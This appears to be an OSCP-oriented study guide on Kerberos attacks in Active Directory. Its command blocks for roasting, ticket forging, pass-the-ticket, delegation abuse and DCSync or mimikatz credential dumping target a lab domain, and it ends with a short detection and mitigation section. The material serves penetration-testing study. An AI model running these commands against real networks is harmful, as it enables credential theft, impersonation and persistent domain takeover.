









## TL;DR

Kerberos is the core authentication protocol in Windows Active Directory environments. **Understanding the ticket-based authentication model is the foundation for most AD attack paths in OSCP.** This guide consolidates the major Kerberos attack techniques with their mechanics, prerequisites, and ready-to-use command examples.

---

## Kerberos Fundamentals

### Key Components

| Term | Role |
|---|---|
| **KDC (Key Distribution Center)** | Authentication server running on Domain Controllers; contains AS and TGS functions |
| **AS (Authentication Service)** | Performs initial authentication and issues TGTs |
| **TGS (Ticket Granting Service)** | Accepts TGTs and issues service tickets (ST) |
| **TGT (Ticket Granting Ticket)** | The initial "proof of authentication" issued after successful login; valid for ~10 hours |
| **ST / Service Ticket** | A short-lived ticket for accessing a specific service |
| **SPN (Service Principal Name)** | Unique identifier for a service instance, e.g. `MSSQLSvc/db.corp.local:1433` |
| **PAC (Privilege Attribute Certificate)** | Embedded in tickets; contains user group membership used for authorization |

### Normal Authentication Flow



> **Critical insight:** The KDC encrypts the service ticket using **the service account's password hash**. If an attacker obtains this ticket, offline password cracking becomes possible — this is the basis of Kerberoasting.

---

## OSCP Kerberos Attack Quick Reference

| Technique | Prerequisites | What You Get | Tools |
|---|---|---|---|
| AS-REP Roasting | Account with pre-auth disabled | Password hash (for cracking) | GetNPUsers.py |
| Kerberoasting | Valid domain credentials + SPN accounts | Service account password hash | GetUserSPNs.py |
| Pass-the-Ticket | Valid TGT or ST in memory | Authentication as another user | Rubeus / mimikatz |
| Overpass-the-Hash | NTLM hash | Kerberos TGT | Rubeus / mimikatz |
| Golden Ticket | krbtgt hash | Impersonate any user in the domain (persistent) | mimikatz / ticketer.py |
| Silver Ticket | Service account hash | Direct service access without KDC | mimikatz / ticketer.py |
| S4U2Self / S4U2Proxy | Misconfigured delegation | Service ticket for any user | Rubeus / getST.py |

---

## 1. AS-REP Roasting

### How It Works

Accounts with `DONT_REQUIRE_PREAUTH` set can have an AS-REQ sent on their behalf **without knowing their password**. The KDC returns an AS-REP where part of the response is encrypted with the user's password hash — enabling offline cracking.



### Prerequisites

- Target account has `DONT_REQUIRE_PREAUTH` set
- Domain credentials are **NOT required** — a username list alone is sufficient

### Commands

```bash
# Spray a user list without credentials
GetNPUsers.py corp.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.100 -format hashcat -outputfile asrep_hashes.txt

# Authenticated scan — find all vulnerable accounts
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -format hashcat -outputfile asrep_hashes.txt

# Crack the hash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

### OSCP Tip

> Once you enumerate domain usernames, always run AS-REP Roasting first. No credentials required, and a single weak account password can open the door to the entire domain.

---

## 2. Kerberoasting

### How It Works

Request TGS tickets for accounts with registered SPNs. The ticket is encrypted with the service account's password hash, making it crackable offline.



### Prerequisites

- **Valid domain credentials** required (any domain user)
- Service accounts with registered SPNs must exist

### Commands

```bash
# List SPN accounts only (no ticket requests)
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100

# Request all TGS hashes and save
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile kerberoast_hashes.txt

# Target a specific account
GetUserSPNs.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request-user svc_mssql

# Pass-the-Hash authentication
GetUserSPNs.py corp.local/jsmith -hashes :NTLMHASH -dc-ip 10.10.10.100 -request -outputfile kerberoast_hashes.txt

# Crack RC4 hash (etype 23)
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# Crack AES256 hash (etype 18) — significantly slower
hashcat -m 19700 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

### OSCP Tip

> As soon as you have any domain user account, run Kerberoasting. Service accounts often have elevated privileges and are the next step toward lateral movement or privilege escalation.

---

## 3. Pass-the-Ticket (PtT)

### How It Works

Extract Kerberos tickets (TGT or ST) from memory and import them into a new session. The ticket **is** the credential — no password or hash needed.



### Commands

```bash
# --- Rubeus (Windows) ---

# Dump all tickets from current session
Rubeus.exe dump /nowrap

# Dump tickets for a specific user (requires admin)
Rubeus.exe dump /user:Administrator /nowrap

# Import a ticket
Rubeus.exe ptt /ticket:<base64_ticket>

# --- mimikatz (Windows) ---
# Export tickets to .kirbi files
sekurlsa::tickets /export

# Import a .kirbi file
kerberos::ptt ticket.kirbi

# --- Impacket (Linux) ---
# Use .ccache ticket for authentication
export KRB5CCNAME=/path/to/ticket.ccache
psexec.py -k -no-pass corp.local/Administrator@dc01.corp.local
smbclient.py -k -no-pass corp.local/Administrator@dc01.corp.local
```

### OSCP Tip

> Extract TGTs from RDP sessions or memory-dumped LSASS on compromised machines. A Domain Admin's TGT found in memory is instant privileged access.

---

## 4. Overpass-the-Hash (Pass-the-Key)

### How It Works

Convert an NTLM hash (or AES key) into a valid Kerberos TGT. This enables lateral movement via Kerberos even when NTLM authentication is restricted.



### Commands

```bash
# --- Rubeus (Windows) ---
# Get TGT from NTLM hash and inject it
Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_HASH> /ptt

# Use AES key instead (lower detection footprint)
Rubeus.exe asktgt /user:Administrator /aes256:<AES256_KEY> /opsec /ptt

# --- mimikatz (Windows) ---
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<NTLM_HASH> /run:cmd.exe

# --- Impacket (Linux) ---
# Get TGT from NTLM hash
getTGT.py corp.local/Administrator -hashes :<NTLM_HASH> -dc-ip 10.10.10.100

# Use the TGT to connect
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass corp.local/Administrator@dc01.corp.local
```

### OSCP Tip

> When NTLM relay or Pass-the-Hash is blocked, convert your NTLM hash to a Kerberos ticket. This bypasses NTLM restrictions while still leveraging the same credential.

---

## 5. Golden Ticket

### How It Works

Forge a TGT using the `krbtgt` account's password hash. Since the KDC validates TGTs using the krbtgt key, possessing this hash grants the ability to authenticate as **any user, including non-existent ones**, for the lifetime of the krbtgt key.



### Prerequisites

- `krbtgt` account's **NTLM hash** (or AES key)
- Typically obtained after DC compromise via DCSync or NTDS.dit dump

### Commands

```bash
# --- Obtain krbtgt hash ---

# DCSync attack (requires Domain Admin)
secretsdump.py corp.local/Administrator:Password1@10.10.10.100
secretsdump.py -hashes :<NTLM_HASH> corp.local/Administrator@10.10.10.100

# DCSync via mimikatz
lsadump::dcsync /domain:corp.local /user:krbtgt

# --- Create Golden Ticket ---

# mimikatz (Windows)
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /krbtgt:<KRBTGT_HASH> /user:FakeAdmin /id:500 /ptt

# ticketer.py (Linux / Impacket)
ticketer.py -nthash <KRBTGT_NTLM_HASH> -domain-sid S-1-5-21-XXXXXX -domain corp.local FakeAdmin

# Use the ticket
export KRB5CCNAME=FakeAdmin.ccache
psexec.py -k -no-pass corp.local/FakeAdmin@dc01.corp.local
wmiexec.py -k -no-pass corp.local/FakeAdmin@dc01.corp.local
```

### Obtain Required Information

```bash
# Get domain SID
lookupsid.py corp.local/jsmith:Password1@10.10.10.100 0

# PowerShell (on domain-joined machine)
Get-ADDomain | Select-Object SID
```

### OSCP Tip

> Use Golden Ticket for **persistence** after owning a DC. As long as the krbtgt password isn't rotated (twice), you retain full domain access — useful for re-accessing during the exam.

---

## 6. Silver Ticket

### How It Works

Forge a service ticket (ST) using a **specific service account's hash**. The forged ticket is presented directly to the service, bypassing the KDC entirely — leaving fewer logs.



### Golden vs Silver Ticket Comparison

| | Golden Ticket | Silver Ticket |
|---|---|---|
| **Required hash** | krbtgt | Service account |
| **Scope** | Entire domain | Specific service only |
| **KDC contact needed** | Yes (TGS-REQ) | No |
| **Detection difficulty** | Lower (KDC logs TGS) | Higher (no KDC contact) |

### Commands

```bash
# --- mimikatz (Windows) ---
# Silver Ticket for CIFS (SMB)
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /target:fileserver.corp.local /service:cifs /rc4:<SERVICE_NTLM> /user:FakeAdmin /ptt

# Silver Ticket for MSSQL
kerberos::golden /domain:corp.local /sid:S-1-5-21-XXXXXX /target:db.corp.local /service:MSSQLSvc /rc4:<SVC_MSSQL_NTLM> /user:FakeAdmin /ptt

# --- ticketer.py (Linux / Impacket) ---
ticketer.py -nthash <SERVICE_NTLM> -domain-sid S-1-5-21-XXXXXX -domain corp.local -spn cifs/fileserver.corp.local FakeAdmin

export KRB5CCNAME=FakeAdmin.ccache
smbclient.py -k -no-pass corp.local/FakeAdmin@fileserver.corp.local
```

### OSCP Tip

> When you crack a service account password or obtain its hash via Kerberoasting, Silver Ticket lets you access that service without contacting the KDC — more stealthy than standard authentication.

---

## 7. Kerberos Delegation Abuse

### Unconstrained Delegation

Computers with `TrustedForDelegation` store the TGT of any user who authenticates to them. Compromising such a machine gives access to those TGTs.

```bash
# Find computers with unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# Dump TGTs from memory on the compromised machine
Rubeus.exe dump /nowrap

# Force DC to authenticate to the compromised host (Printer Bug)
Rubeus.exe monitor /interval:5 /nowrap
SpoolSample.exe <DC_IP> <compromised_host_IP>
```

### Constrained Delegation Abuse

Accounts with `msDS-AllowedToDelegateTo` can use S4U2Proxy to get service tickets on behalf of any user.

```bash
# Find constrained delegation accounts
Get-ADUser -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo

# getST.py — impersonate any user for the delegated service
getST.py corp.local/svc_constrained:Password1 -spn cifs/target.corp.local -impersonate Administrator -dc-ip 10.10.10.100

export KRB5CCNAME=Administrator@cifs_target.corp.local@CORP.LOCAL.ccache
smbclient.py -k -no-pass corp.local/Administrator@target.corp.local
```

---

## 8. Attack Chains — Typical OSCP Scenarios

### Scenario A: Initial Foothold → Lateral Movement → DC



### Scenario B: Lateral Movement with Only Hashes



---

## Decision Tree: Choosing the Right Technique

```
Situation: Initial recon phase, no credentials
→ AS-REP Roasting (username list only)

Situation: Obtained a valid domain user account
→ Kerberoasting (collect SPN account hashes)
→ AS-REP Roasting (authenticated scan for all vulnerable accounts)
→ BloodHound enumeration (map privilege paths)

Situation: Obtained an NTLM hash
→ Pass-the-Hash (SMBExec / PsExec)
→ Overpass-the-Hash (convert to Kerberos TGT)

Situation: Have valid TGT or ST in memory
→ Pass-the-Ticket (reuse for other service access)

Situation: Obtained a service account hash
→ Silver Ticket (direct service access, KDC-free)

Situation: Owned the DC / obtained krbtgt hash
→ Golden Ticket (domain persistence)
→ DCSync (dump all account hashes)
```

---

## Command Cheat Sheet

### Enumeration

```bash
# Domain recon
enum4linux-ng -A 10.10.10.100

# User enumeration via RID cycling
lookupsid.py corp.local/guest:@10.10.10.100

# LDAP — list SPN accounts
ldapsearch -x -H ldap://10.10.10.100 -D "cn=jsmith,dc=corp,dc=local" -w Password1 \
  -b "dc=corp,dc=local" "(servicePrincipalName=*)" sAMAccountName servicePrincipalName

# BloodHound collection
bloodhound-python -u jsmith -p Password1 -d corp.local -ns 10.10.10.100 -c all
```

### Ticket Operations

```bash
# Get a TGT
getTGT.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100

# Get an ST for a specific service
getST.py corp.local/jsmith:Password1 -spn cifs/target.corp.local -dc-ip 10.10.10.100

# Set the ticket in the environment
export KRB5CCNAME=/path/to/ticket.ccache

# Connect using Kerberos ticket
psexec.py -k -no-pass corp.local/jsmith@target.corp.local
wmiexec.py -k -no-pass corp.local/jsmith@target.corp.local
smbclient.py -k -no-pass corp.local/jsmith@target.corp.local
secretsdump.py -k -no-pass corp.local/jsmith@target.corp.local
```

### Hash Dumping

```bash
# DCSync (requires Domain Admin)
secretsdump.py corp.local/Administrator:Password1@10.10.10.100
secretsdump.py -hashes :<NTLM_HASH> corp.local/Administrator@10.10.10.100

# NTDS.dit offline dump
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL

# mimikatz in-memory dump
sekurlsa::logonpasswords
lsadump::dcsync /domain:corp.local /all
```

---

## Detection & Defense (Blue Team Perspective)

| Technique | Event ID | Detection Signal |
|---|---|---|
| AS-REP Roasting | 4768 | AS-REQ without pre-auth, no error code 0x18 |
| Kerberoasting | 4769 | TGS-REQ with encryption type 0x17 (RC4), burst of TGS requests |
| Pass-the-Ticket | 4768/4769 | Ticket used from unexpected source IP |
| Golden Ticket | 4769/4672 | TGT with domain SID not matching known DCs |
| Silver Ticket | 4624 | Authentication without corresponding KDC event |

### Key Mitigations

```powershell
# Audit accounts without pre-auth
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# Audit Kerberoastable accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName, PasswordLastSet |
    Select Name, PasswordLastSet, ServicePrincipalName

# Add high-value accounts to Protected Users group
Add-ADGroupMember "Protected Users" -Members Administrator

# Reset krbtgt password to invalidate Golden Tickets
# Note: must be done twice to invalidate old keys
```

---

## OSCP Exam Tips

### What to Keep in Mind

1. **Always try AS-REP Roasting first** — no credentials needed, one weak account can unlock the domain
2. **Kerberoast immediately after getting domain credentials** — service accounts often have high privileges
3. **Never discard NTLM hashes** — they can be converted to Kerberos TGTs via Overpass-the-Hash
4. **Save tickets to files** — store `.ccache` files in `/tmp/` for later reuse
5. **Use BloodHound to map paths** — visualize delegation misconfigurations and privilege escalation routes
6. **DCSync after owning DC** — pull the krbtgt hash for Golden Ticket persistence

### Common Pitfalls

- **Clock skew** — Kerberos requires clocks to be within 5 minutes. Sync with `ntpdate` or `timedatectl`
- **DNS resolution** — Kerberos auth requires hostname resolution. Add DC entries to `/etc/hosts`
- **Wrong etype** — if RC4 hashes aren't returned, try requesting AES hashes
- **Stale tickets** — use `klist` to check current tickets, `kdestroy` to clear them

```bash
# Sync system time
sudo ntpdate 10.10.10.100

# Add DC to /etc/hosts
echo "10.10.10.100 dc01.corp.local corp.local" | sudo tee -a /etc/hosts

# Check current tickets
klist

# Clear ticket cache
kdestroy
```

---

## Related Posts

- [GetNPUsers.py — AS-REP Roasting Complete Guide](/posts/tech-getnpusers-asrep-roasting/)
- [GetUserSPNs.py — Kerberoasting Complete Guide](/posts/tech-getuserspns-kerberoasting/)
- [RBCD Attack Guide](/posts/tech-rbcd-attack-guide/)
- [ADCS Attack Guide (ESC1–16)](/posts/tech-adcs-esc-attack-guide/)
- [NTLM Relay Attack Guide](/posts/tech-ntlmrelayx-attack-guide/)

---

## References

- [Microsoft — How Kerberos Authentication Works](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [Harmj0y — Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)
- [Impacket — GitHub](https://github.com/fortra/impacket)
- [Rubeus — GitHub](https://github.com/GhostPack/Rubeus)
- [The Hacker Recipes — Kerberos](https://www.thehacker.recipes/ad/movement/kerberos)
- [PayloadsAllTheThings — Active Directory Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
